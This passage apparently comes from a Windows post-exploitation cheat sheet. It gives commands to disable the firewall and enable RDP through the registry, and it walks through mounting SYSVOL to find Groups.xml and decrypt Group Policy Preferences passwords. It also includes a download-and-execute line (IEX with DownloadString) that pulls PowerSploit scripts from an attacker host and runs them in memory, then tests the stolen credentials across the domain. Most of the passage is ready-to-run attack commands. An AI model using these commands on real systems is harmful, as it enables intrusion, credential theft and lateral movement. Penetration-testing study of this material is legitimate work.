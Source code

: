 Firewall turned on?
```cmd
netsh advfirewall firewall dump
netsh firewall show state
netsh firewall show config
netsh firewall set opmode disable
```
List firewall's blocked ports

```powershell
$f=New-object -comObject HNetCfg.FwPolicy2;$f.rules |  where {$_.action -eq "0"} | select name,applicationname,localports
```

Enable RDP if you want
```cmd
reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
```
### Group Policy Preferences
If the box is part of a domain and the user account you have can read System Volume Information, then check for files with passwords. Start by checking the environment variables for the IP-address of the domain controller if that's unclear. Output environment-variables by typing```set```and look for the following:
```cmd
LOGONSERVER=\\NAMEOFSERVER
USERDNSDOMAIN=WHATEVER.LOCAL
```
Then look up the IP-address
```cmd
nslookup nameofserver.whatever.local
```

Now we mount it and search for the groups.xml file
```cmd
net use z: \\192.168.1.101\SYSVOL
z:
dir Groups.xml /s
```
Then just decrypt any found passwords in kali with the gpp-decrypt tool.

You can also do this with powerview and the get gpp-password scripts from powershell empire.
https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

Here in powershell we load them into memory

```powershell
IEX(New-Object Net.WebClient).DownloadString("http://10.0.0.100/Get-GPPPassword.ps1")
IEX(New-Object Net.WebClient).DownloadString("http://10.0.0.100/powerview.ps1")
```
Then run ```Get-GPPPassword```and feed any listed GUID's setting administrator passwords to powerview.ps1 like so. This will check any found credentials against other domain machines.
```cmd
Get-NetOU -GUID "{4C86DD57-4040-41CD-B163-58F208A26623}" | %{ Get-NetComputer -ADSPath $_ }
```
